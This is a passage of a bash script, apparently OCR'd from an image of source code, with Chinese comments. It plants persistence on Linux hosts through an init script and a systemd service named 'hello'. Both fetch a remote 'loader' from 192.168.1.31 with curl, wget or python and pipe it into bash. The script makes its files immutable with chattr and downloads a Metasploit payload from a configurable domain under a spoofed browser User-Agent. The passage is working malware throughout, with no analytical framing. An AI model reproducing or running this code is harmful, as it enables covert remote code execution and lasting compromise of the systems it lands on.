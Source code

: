 ```bash
#!/bin/bash
# chkconfig: 12345 90 90
# description: loader
### END INIT INFO
(curl -fsSL http://192.168.1.31/loader || wget -q -O- http://192.168.1.31/loader || python -c 'import urllib2 as fbi;print fbi.urlopen(http://192.168.1.31/loader).read()')| bash -sh > /dev/null 2>&1 &
EOF

    #启动脚本添加权限
    chmod +x $loadup
    chkconfig --add loader
    chattr +i +a $loadup
    fi
    #判断systemd启动脚本是否存在，不存在则创建。
    if [ ! -f /usr/sbin/hello ];then
tee /usr/sbin/hello << 'EOF'
#!/bin/bash
(curl -fsSL http://192.168.1.31/loader || wget -q -O- http://192.168.1.31/loader || python -c 'import urllib2 as fbi;print fbi.urlopen(http://192.168.1.31/loader).read()')| bash -sh > /dev/null 2>&1 &
EOF
    
    chmod +x /usr/sbin/hello
        #创建systemd开机启动服务
        if [ ! -f /lib/systemd/system/hello.service ];then
tee /lib/systemd/system/hello.service << 'EOF'
[Unit]
Description=hello
After=network.target

[Service]
Type=forking
ExecStart=/usr/sbin/hello

[Install]
WantedBy=multi-user.target

EOF

        #添加开机自启动并立即启动
        systemctl daemon-reload
        systemctl enable --now hello.service
       
        fi

    fi
}
download(){
    #下载msf payload到临时目录并添加ia权限
    if [ ! -f $tmp/$payload ]; then
      curl -fsSL -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91. 0.4472.124 Safari/537.36 Edg/91.0.864.64"  http://$domain/$payload  -o $tmp/$payload || wget -U "Mozilla/5.0 (Windows NT 10. 0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Edg/91.0.864.64" -q http://$domain/$payload -O $tmp/$payload
      chattr +ia $tmp/$payload
      chattr +ia $tmp
    fi   
}
runpayload(){
  #运行msf payload

  #检测msf payload已经建立的链接数量
```